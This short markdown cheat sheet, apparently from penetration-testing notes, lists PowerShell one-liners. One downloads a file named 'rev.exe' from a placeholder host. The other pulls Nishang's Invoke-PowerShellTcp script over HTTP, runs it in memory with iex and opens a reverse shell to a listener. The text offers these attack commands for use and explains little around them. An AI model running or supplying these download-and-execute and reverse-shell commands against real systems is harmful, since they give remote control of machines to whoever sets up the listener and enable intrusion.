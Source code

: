 # powershell

- Powershell equivalent of `wget`

```powershell
powershell (New-Object Net.WebClient).Downloadfile('http://$ip:8888/rev.exe','rev.exe')
```

- Powershell reverse shell can be found at [https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1). Connect to listener using

```powershell
powershell iex (New-Object Net.WebClient).DownloadString('http://$me:8888/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress $ip -Port 1234
```
